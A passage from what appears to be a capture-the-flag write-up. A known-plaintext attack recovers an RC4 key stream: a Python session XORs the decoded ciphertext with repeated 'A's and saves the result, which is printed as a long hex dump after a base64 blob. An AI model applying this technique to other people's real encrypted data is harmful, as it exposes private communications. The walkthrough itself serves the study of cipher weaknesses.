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


      ```
   3. Generate the key stream using the known plaintext and ciphertext:
      ```py
      Python 2.7.16+ (default, ---  - ----, --:--:--) 
      [GCC 8.3.0] on linux2
      Type "help", "copyright", "credits" or "license" for more information.
      >>>
      >>> rc4_base64 = "...omitted..." # [Encrypted RC4]
      >>> rc4 = __import__("base64").b64decode( rc4_base64 )
      >>> key_stream = "".join([ chr( ord(rc4[x])^ord("A") ) for x in range(0, len(rc4))])
      >>> key_file = open("rc4_key_stream", "w")
      >>> key_file.write(key_stream)
      >>> key_file.close()
      >>> exit()
      ```
      __NOTE(S)__:
      1. The ciphertext was XORed to the plaintext in order to generate the key stream.
         - The key stream is either longer or of the same length as the plaintext.
      2. The key stream file was saved in a file named `rc4_key_stream`.
      3. `rc4_key_stream` (hex encoded):
         ```console
         cat rc4_key_stream | xxd -p | tr -d '\n'
         
         583eef9c3a6a2b7e4a9bbaf6e731f7c4ff37443790659b795d6b7923e946df8e5b4514749903a2dc17a3e30358f48d1d5fcfbeed995155ae8c19357efc38fb81aada9c4ebfa40afeab2256b5b284256cf500fb510c761d5c707b85583fec47b44c22768eb440e105e0a8d5cc3769366a62f3f02737238f451854e323309dd72796da46517838770ff9b3907ce541b84201437597a5ea69efcfb4d2b503af0d9022dbfceed1646908bb19e7db90e0a8c03437128fdd5777e8b1fc4a05dc8d152eb7b317bf9f9acfb343b27ef0861ff75f382fb11532de23e6908dab1d47a65e691d4e5d949c0fb4df3db69de43d956d11d506077807d8380a0a0878e0ea9e0fafd3e52f90bfa11ce6ce93fdf3ce68b02512c1104e7ea2151143da751fd878ca7bcacfdde7757a96445e21174449dc833a68d3c141c0a132c3ed1a77232e595ec11d5f99d8a32e3ae4c2a16870c977c7b3801878aa43d859ed34c6689822e3548043bcec268d834456fbefe3114dc7a54bbc2ed7227b253da8767444b7c90e90c09ec4ec1b25391cef271fbf728464cd63bfb1dfbe57b8096a5e04708b84fff2881506cb3f904624ebf32d22612f04e684dee56692e7efb5935631da58d93046742b337c2ef8a7447717db0fa5a8ebac1ffc074bb542c64d09042cb149e6bfbec9c561c73f2e7b1f22d5e3f2a4d81edf2b1f7f3a04e05dd7afbd1ece2804e7b4ca6dbbfd8640e7e4ce3886e3e13130fc5e8d9dbd4a577c9be6853d938bb3ed2c267ae0a57a47a97ed40141c2893cba584a5fa377037d9e90f478d5c97a2ab30f8d2bc540e705869f7caf6189c01a93d74e5546cfb67fabbcb9aa5d8f63180d8acb825b5528343c364bd99b130322517c57fe3bf5f25343da2bb7ad44f0d88ab3c446ef13fe43c2026f6c6e5bb3c04aca13f7121444389aefa35e139f2086acb5f8f610546554849c8bbc15bad73809d82b1ef9298a58da446bc58c0bce72accc605b6997c8b2054ae3e28fb92cb134abed2a7cec370e8eff819e4ddb6360c1e4075b56e1470f20f3edfe263dcb44fac1976d09a61a8097e7195b8a21a862eb2b564b3815acab12bc831f9d981cc07a35c4f6bb6a77d02c7c67b1c785bed53dd7d87b14d150b13190cf38306188b4a1f9f4bd68d96eb2a11eafb66929d846e5eab1dfc48d1d9faeabfc17f0a71f65bc3aa5dee97e5c1692655678b7f97dc10c877152543ab32ee32d28c6786153c55a606354683edb16cfa6ec429b7d60a03962c4671c36638c18ef4a798054e0013c6c2a1cb2d6150e7d5daf80c8afd5924793967b24052375877a1a3e9c69cc01ec02ede2f4e540248e3bb7069ef779491db224cb65d4d148e50f18221f072dcc3727f94db1c9b219be50a860aed84f36fec437c63c33d2edf9e66f5c29c7c91da9136f972557d20266d03a529805327ea92ea82f7d8ac956702322882fe23da756ac93339e5ee332ffb8ac656c7c840272f13be7209ce39f0270e543b7abb0e00bfb17e6c81e5f3f4f39e69ad4a40851645573a75c2e51f18d8b329b57952b3283d2e8794136471307dab581199eec52ab5a7b245c3b2e3abe09ed377be8bba9eeffc329f085c8ec0a2ee65471f8676e6bfe1e439c4bcedf13d619c068a93e4386e2017b729203fe28de3f0e30b8b75d8ebd6dcad81990826b640b47e4557113af0cf2fcbb2cff3416ea56d35fc73eb50656c81852e52685e742c2634fa8b17915ea12101ddbf6a84fb2271e2a4f21ae24b99d396908d2892221d7273c8e78d57252012ed814fd384f16077165a6747b5ce3800e9d2fb2b4ecaf39e332acde5f4f4addeb593b17c75803576cd953f3195e7fc744f6823e4009f312d85c652d2576847d992235bf352b4afd8d2e08e38fd1f53f354b14c0faed18dedf28ef80c293a6ed41d3e66c54b35473dc6a574210d8ba2d140afdc466eba2839c640ba69c010e168f483ea56e6ef5c989a2139b17e9a16ae49fa59ebe47251ec5d8968bc9684d7a20e9a175c29122a6f409649849b0a616fcbc3e8facc2ddec862ef8cb720441a85429e96a41f5729c0c58e69dfbdfcd66273808061422758d16beb9ae47adb29b5f2d3797976ccfbbf5d622f069417296002ea2320f88f3fc6bcdee1c30058ce1a0e0f0017ee1db3f710a9578994df6ff522f5078eb4771aff168a8078eee4f5d0d2196238967b970e9177174aa15b8e89ba63b7a27cf3768861b0473762b364c6530c7e0b57fbee684f7364a0c61580b901127d73b48365d7e28978dcda915e553d55b8cab29be9afc634c28c26e60f20ca3cbad7e214fde4208adc3e71dbc3060a1582fad23410c4da799bf86a3830ffe4d3830c5a709a8a278c091af7583672789b9fdb2c3959563e3978559cd390275816672e916234b062ba7d6c64bbe576f117014872b6844ea7d1597e4c6d80f90376b01d01913f716a308ab39003109ba3921879727967b6b4ea517afba896d070560338001dbe2a25f540dd0a058e99bae641f833d5bcaa9fa1c7067cf822bba36620dc04fdec54044bc4fedad06daec8a6f89bb6e1ea3946ca0a87ca1c540ffbaba9d4a2f26ecaaf0080ab26b76abb9a66cc997cd0ce2e78a5921c0ba732b1bc554fee5e0e643cb6cdcd5521af02305f699d13d9dae47a7ff49b2eea2919f9eb59fc69c11d827ab030e8406e1e41e3ca7adf05cc148a6a73f0ba7798f786814987d26f1ff26f0d9c515d42b56d29ba16a198fa212548416c76f86139eaec2d161f6fd3d59e914f750174c67fdd7705261e2cfb0a29c0a9c9de23594afca9bbab11cda1e9e9b5592884f0f14e73908906baf15fee17fec8232a0639794627350f148bb8c60bb80d43aa73dab12db678eee18fa8e07afd1aff88dd75c223da7701aa15596dbad1bf4b61096f342fc8f5da35b3d2c10a177743ed67c4b6acce7bd1b7b463e9e7b8e47bd455b351d1e700602ff78961488b0a4531c797058d39ace56eefae33c2bbc3e84ed92206d3045474d7ba6a956a32b3454d9ef1cd9a6d59eafbfe51155b9a779fcd8fec19edbd2b7eb38924748216c1ffea6ede81dbca12567863a2d74ebc8810411a24d5e1ac974f64841da214c1d19b677408c2a7b7f31d9fb4946c572c93f217fa09b7a0d3de393a1a91f63c6802f50651053ac73125680eda639aff198d3a665bbe74fb52280196c0ba6e40b03696e85030079227df7418ce666b86e5a198ac87fcda580a92ec41e00e033a99077df7e1ffcc4f55649178979aef7f29d12ec03ab8c7602de7ef6e3ff02fd6866a5b4844e2a33e9d56e2fdc099dc0aeb8e7634cab8c6a67c138ea1b6491dd577d4adf61be2a55946dba1090cdf29dc44b227cab2e8c71c89f75c2b0f4e94635ce0cc6ec809ef1036f340865549e2c1a3be74acad9ca0135c73bae0bd0af4eea9eb8bf4af5d419274b3fe7eaaeb6215fcb05fc3ce9ab7b9fad9b3c02ab0730da36791aadea92a082c9770d55e23a81cc7458b030a88281b594f9b03723c05b59032f0b4dc323ef42f5c7c38aa24927de56654536f0c7086f16527442ca7c198f95e51c82447f70e6da8ba16832ccbc04312f4c16c97c8b098b3e63142819bc7b4c27cfd512db9a7417ac7f74b9b2d042ddb5fe48db60364e9c404d1dc17ed8f637324595051d0603a4bbba0d3891850a7a4e5a95be221caec0b912e9b95a331cb79aa0bf2d7fd61c87aecb012ac9540dfe27c7078d37047590492e283f92be8c21263b396f7df46c636a257b6353a8bc0a22852c9650b37dbb52f22d1f5b5304d60030f883222be5306ea04b1885bd5149f1de2dbcbb616fb7335939ca2665027c0c2b0fcb7e98490e322ebf66725aa40f65ed765a4b9318e2c7fb1927fff76ffee313d47665a1147609075d1a82be019fb865a7e394cd5e90a96e66c33553cb5a59ed15b032ed163561937e6dd60c018b667a56658f48df786f52c4ee2cf404bf6543306836116ee4b18d927565431c44c22bffc5c553ffd897b941d6cae4cbc4fb37d5cca2632bba9b6a5ccbdea47ad0c4eeadbe49201b63616542b56d6c54411f1e45ed22047bcb33d0a81e8013fd324f60b3a6f3989a531813ed5fbbe2b68ca359442adfcbb9d10514ae94f41fd86b0744a698c4c4d42fd5d47683982e66d39675c13ca2051559fed85b1b6522b50d391b0a2b91eb0b582d658ee360f41f16b720380393f23ac96721a60135f120c6e6de670498a1375aaf979a1eef560f9dd8e8e089876dc61976c5a8e47fa613c9b2e72b7fa9e5fcd4918160b6642ec407dadbabeaf2e4846c8deff7f9260db70a4af28aae99e3d25205f2ec75a8a80e41a8a8d53136f104c7df4c4f9f9610c8e5e64c91f5fffffd1879c2a5fc2e0f6a345ead95a506bf0ae1140b43b13fc8281729f0837ab82836c463a759e493f4e876338c4d5344f467861526d4623aa9eb9f9812854edee3155ebd9d28d9795c384db4d34b6baf6bf1bb6003016823a0ab42fc42aca6c56b453129c72591ef020abcc28b5ab0c5c8179374901a9f263889bf93bf04b40a72edb2199e7d767a798dc1f81fe02efa45eae90806cf922b39bc37fef51e2ee2afe3acfe0c13eee7620a69deca9c60f7d44f66ed69621c9af575301dadc8aa7a59257859e2640a19b9e6730f45132714beb7b7b788fbc80fc8b74b30c4099b031de0bbb8e8e0dee5babdd17e06e0c30d6563f413a3d5407ed2d95be9be17cf66d00dd08a094e22b16b9284bc54e911b342ef4ac8cbeab3df9aa5b96f9ed4947aff986e7d862a90a6a3535d43b30d67885edf880ddfee0d3b2d1d52aeddffafc06e9f910f3208703c65ac4c5b083a3454d8bf2ec0060b2d3564441a7ccb2ea6b18bbc5221e8b3b772bddcaa571a6ee93769ddc3d90ac36fa156d7e6c97a350ff6fb79bf38e390c83248be92fd28bdf40a95454127eda8fcacd2406453ab53a6516e4e9c16001772b30ec0c88595add9729642dc275f16f2d65849f1d8001ae94d5b24466e34e1cfda0d03a160c748908c600b112ed9317a6c641a5d44dc24d09547e4a17314c46a2171af93accdc2b0a4f9238a6ea06a9869ea1ee8ba053563418605674d85101187b039b796146475dbb1a5aaa66ba2b44d4cd367dc00ed372d78f669c92bea28a2dbe13478214d55ee0e80e0083947ca6ae9ca1e1fdafe279075eb31d05ad1550c3bde1f6054c99137ba3487b75ebff710545af05958db2e249ee4b41cdcbfd09fff6f1d5f8d5bb57c0da0e58645a96bf7c19bf63320d7eed97f7ed322fe32097995f7b173e74c249629ea51fa9ea68b440ec7775142d1e40058bf0d73dde7c0628e8e69388348dc01a949e34eed108f8e965785e884a81065b8cdfa242581aa74bc8c624360585cd3b965e5a46a7590810ef0b75405dfce0e60f6a899af97ba339edb41f2daa900855afd2080ae3b51cdb5940e039ebe8cfb457a8eee6db7306fa5290c371c9ddeeceecb6a9b258fcb2bb24d33ebea7b3ee9bb3a0ed4a2bf341f83f62937d47b1c96f7cb309bf8f2e6aae0528d33d8d55db4f0d27cf055ba03ad96a94a49d10456de956f7b5e662360d4850f20213706650a7b1f6cb881616c37df0625e18e34d9edcc1573d33dea88fb2d1dc6df13e6ef482aa9cb1f34acac15f57b1d028964f4d052caa9bdaf6cedc98c27221bd582925a38aca47247fda090faef23eeb19c3815c388d69c84c28a78524232ebe7f9d7768954d57c9da0e4c2654f327f2d19827e6f0640b18af7fd19f45d13cbf0d2907fbd3b5ee5cf500d47a5c020739deed4932c748f0f3b2582f0bd5eee01f67cc6183651a3b2a189464140a16c96764d568e8162a5a50a8fdf7eca9bc23019c201c768331196abe720b5da34435cf760c3d0f7a200d881fd7ab21cec9dc056ccb6efcb701051d37a49cf6218ddc804e3d8ec5c68a56b32e37d3cfda7ef563dd9c5af837064f601b394cc3907da4d68e95c9d1bab278918a00640ec3d0e8fe471b4edacf407c237379af2f317c1c110d3f8186caa5ed24b152fc3bd934d13f06239b88a17adad9f5f8fc0e707377012c2c183fc3a773a6e106f872ae185fd909310bb762a421764b52c5f7e7c0cea609b94be349591a218f2b33dc9f2b1abca1308e6d0877836cce941a5742beaeec10fd0f09dbc99519d4869303366fa3dd7d8c882f15462a3499159e900f999c36f85ea80dbb182d9f0ed08fa9daae70c0f95f978a098ac686ee36d126af744e5ba8fb8284baecb23c070b160bc5bdcaecc03966c2f0bf9e0141badac9d81cb4e04f75758ef2e3cf45a4f022e15733d0a440cc38f15e7c9b4ae62ca322a487d11bc2cb3f182e9413d430b8cf32d5f7ef59eb42840247ccd0d8e525ebb46bb841659a4486f390b5e467c230300a41bb2bed31389f7da87dd0cfcb516e631ad747b36f5b2af9c3578e954934fa869bac09b064819a1b16074f3c84070c41a50791f2ee58ecf12646f5210f379599f8779f7883b89b4a346ffa8470ab3c8c4293aedda598a6f3415c38c71ca0c715e50fc5c588057eecbd8b140c6a3996175631bee553bffafa037b194671a252c0f9c62ab852768c325a7484e7f6511f4d2259cf5124643a1a5192c072a1b7bba21368cdc6afae50572da5a8215183c1350df650e3da55fa8c0a4a697fac245aaa09b1fa836093c70449404d671deb407ce5ab1254598c9e24b77d99ea93a259863b170f9647e6948196fae7583f247749e2461fcb238a957d8ab8008f4971d003a51a91b8a86fbd9483fca8a4297abc6b821bd8906f596bb3533c7395d48f04e6db0c4c547035d6f601dabfabf8156415c48f5639c361dc2f4b06cede894663269fff916ac8b2b97d467a987d6d91a7daab048d264d8a0fa8a0391e2ccd1169c9b53accbd0fb175f6e010f31c4513e3a8fcbdb97db99c7711857008311223c7a6b84625c9bb58de25b27c0966c7f2857f1d7d5ceb691242ec573b11f33ca77c87b775af0641a924a33083bea6ca2f1581e79d7391667081b99beb3e23305a48ff3d1fd42651928ea0e89b0fb747f6d814abf9cb99f8162d42fbd405459284213136277349dd183fb7b6866cf16c7a1ddd75965b449b48acded2020ff50505b6a29c6c22f60c9436909637585c673c8fd37403f9d3975d4fe88b5661b89dd4229389e9b9ce94b9f310070c82905e1a87fa71d51310c0647bdd27bcb7888bbe991510da9ea92ebba4252ab06ee91c644f7b1b456d21a007c1cef9cbce369c3d4a03f987c09b40e1d3f575f756ea3a312e2c509591922bd3213a9d88011ce52ca82c3e76d029e611654bbc600ff3e01af99010eb78b2cf058561966865be0cd220d7bd40c0c0361edd1aca45ce7a104c58daf4c6188d20736580a14da49f7d90fbe743b8f299f4f0afbd52d86bbd6bfa93e9c2fa645f57a9a8802ed28ef3b30a07789d55d4b3b521fcd8fb05ccb7ffcb1848310c0d981a01e9a132482ff466b4e62125c7bc56fe13c821714c6266254f598bcdbe0a9f6e6fb0bd1ac2bf6e902cf25fe429c2300cf09c2a8cfb8255524941f27f3a70700664f3de771976addd610e76aafe7a3248c2628274f163a6c772858c7adbc3a7b831dd5c8f956c8c16f50f473ae8c763214332791ec69d0f9d839d0df99f0b773b152fbdac450821a89c8dcc158d67fe46c975cd98e350718e854c506da65df6740af3fcc1a47330d61c94e1feefb3b4bb8545220223c724af41bcbd5fe776a1f9fd0ee901821059f1a81583f694b80b4078a3099387b6d11733f27e36b4457c0251294af01d75f4f11a4b7ab98e486c887ede010238b38eb53d541f836f8627f2d90231117ee931bab07db99a0a3cf9ffeddca461c262b826f9c97c2a5e6190dc5ed5f68a44cb1b2602e3e0d43dc03cc339d1bb7b44f594f576ce9ff3a570ed97f76ac940b992536b325a80105652eb7cce74e309d8eefb7c6e36d4d5ad6c6625910d336f92d2c49255abe761384551ad7dbeccf620d3b5d376355d36ff01616929dd01703100d13c83f40ce38d092ff5c6d54fe4d485350541474ebf43dc30d0040f31b32963f8db9347c7288ccda061445c677af009d9bc78f089d6f8c47a5c2ea1818103398737c18fac6af397ce7976b97d0f2ad74f87983cac2227b65b2f5cd9435e64c6f3e0bc99ccc262ba1f132583ffd1e358e976d4a43e81c3859331a8631e33882e6c433eb4429ed108b1276c9ea1086031c8908cf3f6d3431e7a2bf6e0d170c37cc288a5f6695384aeb74624e8d1a54596adb80c2c1c438256775823876ecaa46fe2772d5f7dafb21eab7190b47557b2050a0ee85bfac3cd5027397dfe1f693afca2d434a72d01b736433813d9db23d48f6b4439f7a0a8d0edc77a74a03e7e2685db4d905b56a5ab8b9190b82b57c8d57591f222c922b3629c2d626790039c9c1ea7ef7c8c3808447a936300fbe4693fb2a54064071df8c961761ac89f9a87d2f527751ffcb0429bfbc84b4e7bd4f2a13f348fd0ff761193b2ced8371f80c5a667ed8d2355c1a50d34d342ed8d7a9b11d2e460bae36750abd8a7bc0f67a5918518368b458f84d769b72c64a617d7d566bf6ee4798f1d11888bd322b5da9ed0d9f97b303eddde990fa13c13c193efdd444240a1bc30737b0dca09b808b581077790667d78041054a13a5c573b72fd405f83958dcdbc6b9e39bcba5f0bb2f291d391073ef552957fe7a1d312e690f3fbae3d8e7c39ed2273306c31a3e43aaeeba1412e57752d5b98ceb3dcd950f270335ae69b04e39589d2863cc7670358eb25ebb77c5d133a9d926380a7a19863789f9ee31de254c42ea3c293b3b171f67aadf1912e8133d3f7a169b8edbfb8501a79606c912dd7063711ff7a1106826467edeec2c087022b285e9333c3df4f22f6cb7061efa25c8db0cdf860bc409024e84e4eebe24d9c169d0ca53e7c7e4f00ea5c44914d0bc34468122194898af687a8ce360679861ca43fc0e15f1af76c72f66a87561d405a041c351b8fb33d440d1b81389976c5abf7cf30534f36a1889e6ffc98ae9e535a1f9a786608ca8a889ae5ea6094cb127c8c4dcb15399090724aa0f9430fbd5d90ca5a68923f6c298e582120507d6eb24d300b6098ce2b07bc55df6f0333b9c75048b3fe90bd5047f8f7079b6265217288b084a7e0007271d876c12dc785e79273a0aa5154c423ea7e25f6f286f13dd2c33f520a4ad9dfcff67046c729f71320b85499fce6cfb7fc7975b49b19b1cb9b0b284c930ddf25e9c0e154fc369e681d6523d4fd37dded5e95c22e2cb669207a10540aa8a3f4d824f1923502ee238f83cfc67df66cb01217c01fbc27652ee358160d99ee0fb9809d76d373a55474aaf12ee6647dfce801ea80b23e17d26865c9e7297929cd454368aeb1f40aae50a05029b93b65b8355f72deae7879fdfb1aeedfcb7a6bba7830c95b96af5f8aff64387f24eab94fd711447cdeabb4d27c8615768c226c45fcef8fa4e3ea55d86623b5aadab6200